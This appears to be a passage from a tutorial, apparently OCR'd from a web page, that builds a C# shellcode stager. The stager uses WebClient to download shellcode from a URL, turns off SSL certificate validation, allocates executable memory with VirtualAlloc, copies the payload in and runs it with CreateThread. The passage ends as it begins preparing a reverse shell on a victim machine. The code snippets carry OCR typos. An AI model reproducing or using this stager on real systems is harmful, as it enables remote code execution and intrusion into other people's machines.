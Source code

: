 Ø **VirtualAlloc**():Allows us to reserve some memory to be used by our shellcode.

Ø **CreateThread**: Creates a thread as part of the current process.

Ø **WaitForSingleObject**: Used for thread synchronization. It allows us to wait for a thread to finish before continuing.

**The part of the code in charge of importing these functions is the following:**

![](https://cdn-images-1.medium.com/max/800/1*iGfdLWKmFEgA5YbJ-j-a1A.png)

The most significant part of our code will be in the **Stager()** function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.

The first part of the **stager()** function will create a new **Webclient()** object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the **ServerCertificatevalidationCallback** method in charge of validating SSL certificates when using HTTPS requests so that the **WebClient doesn’t complain about self-signed or invalid certificates**, which we will be using in the web server hosting the payloads. After that, we will call the **DownloadData() method** to download the shellcode from the given URL and store it into the **shellcode** variable:

> **WebClient wc=new WebClient();**

> **ServicePointManager.ServerCertificateValidationCallback= delegate {return true :};**

> **ServicePointManager.SecurityProtocol= SecurityProtocolType.Tls12;**

> **byte\[] shellcode=wc.DownloadData(url);**

Once our shellcode is downloaded and available in the **shellcode variable**, we’ll need to **copy** it into **executable memory** before actually running it. We use **VirtualAlloc()** to request a memory **block** from the operating system. Notice that we request enough memory to allocate **shellcode.Length** bytes, and set the **PAGE\_EXECUTE\_READWRETE** flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the **codeAddr** variable, we use **Marshal.Copy()** to copy the contents of the **shellcode variable** in the **codeAddr** variable.

> **UInt32 codeAddr= VirtualAlloc(0, (UInt32)shellcode.Length,MEM\_COMMIT,PAGE\_EXECUTE\_READWRITE);**

**Marshal.Copy(shellcode, 0, (IntPtr)(codAddr),shellcode.Length);**

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the **CreateThread** Function to spawn a new thread on the current process that will execute our **shellcode**. The **third** parameter passed to **CreateThread** points to **codeAddr** where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to **0**, meaning the thread will start **immediately**.

Once the thread has been created, we will call the **WaitForSingleObject**() function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute.

> **csc staged-payload.cs**

**Using our stager to run a reverse shell**

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let’s start by generating a shellcode the name of the file needs to match the URL, in our stager:
